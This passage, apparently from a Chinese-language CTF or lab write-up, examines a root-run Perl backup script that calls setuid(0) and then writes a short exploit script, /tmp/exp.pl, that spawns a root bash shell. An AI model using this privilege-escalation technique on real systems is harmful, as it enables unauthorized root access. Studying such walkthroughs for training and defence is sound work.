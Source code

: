 无/root的rwx权限，但是有个/opt/backup.pl脚本，查看脚本内容

```perl
#!/usr/bin/perl                                                                                     
use strict;                                                                                         
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid); 
POSIX::setuid(0); 

my $tmpdir        = "/tmp";
my $backup_main = '/var/www';
my $now = strftime("%Y-%m-%d-%s", localtime);
my $tmpbdir = "$tmpdir/backup_$now";

sub printlog
{
    print "[", strftime("%D %T", localtime), "] $_[0]\n";
}

sub archive
{
    printlog "Archiving...";
    system("/usr/bin/tar -zcf $tmpbdir/backup_$now.tar $backup_main/* 2>/dev/null");
    printlog "Backup complete in $tmpbdir/backup_$now.tar";
}

if ($> != 0) {
    die "You must run this script as root.\n";
}

printlog "Backup starts.";
mkdir($tmpbdir);
&archive;
printlog "Moving $tmpbdir/backup_$now to /opt/web_backups";
system("/usr/bin/mv $tmpbdir/backup_$now.tar /opt/web_backups/");
printlog "Removing temporary directory";
rmdir($tmpbdir);
printlog "Completed";
```

脚本通过设置setuid以root用户运行，这样可以按照同样方法写提权脚本

```perl
#/tmp/exp.pl
#!/usr/bin/perl                                                                                     
use strict;                                                                                         
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid); 
POSIX::setuid(0); 
system("/usr/bin/bash");
```
